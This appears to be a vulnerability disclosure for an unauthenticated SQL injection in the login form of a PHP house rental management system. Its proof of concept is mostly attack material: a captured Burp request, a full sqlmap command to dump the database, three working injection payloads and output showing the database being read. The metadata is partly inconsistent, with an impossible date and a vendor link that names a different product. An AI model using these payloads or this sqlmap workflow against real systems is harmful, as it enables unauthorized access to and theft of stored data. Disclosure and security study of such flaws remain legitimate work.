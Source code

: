 # House Rental Management System - SQL Injection - 1 (Unauthenticated)
+ **Exploit Title:** House Rental Management System - SQL Injection - 1 (Unauthenticated)
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
House Rental Management System allows SQL Injection via the 'username' parameter at "http://localhost/rental/login.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/rental/login.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /rental/ajax.php?action=login HTTP/1.1
Host: localhost
Content-Length: 27
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/rental/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=1uglgqsdr43o5j4805l7v9kg7d
Connection: close

username=test&password=test
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 6595=6595-- Zxii&password=test

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=test' AND (SELECT 7493 FROM(SELECT COUNT(*),CONCAT(0x7170717a71,(SELECT (ELT(7493=7493,1))),0x7170716271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Pmrg&password=test

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 6993 FROM (SELECT(SLEEP(5)))lxxU)-- OQDx&password=test
---
[16:47:40] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:47:40] [INFO] fetching current database
[16:47:40] [INFO] retrieved: 'house_rental_latest'
current database: 'house_rental_latest'
```
+ current database: `house_rental_latest`

![Ekran görüntüsü 2024-05-16 000355](https://github.com/BurakSevben/CVEs/assets/117217689/27b7108b-470f-4a21-9429-f6b3a135aa90)

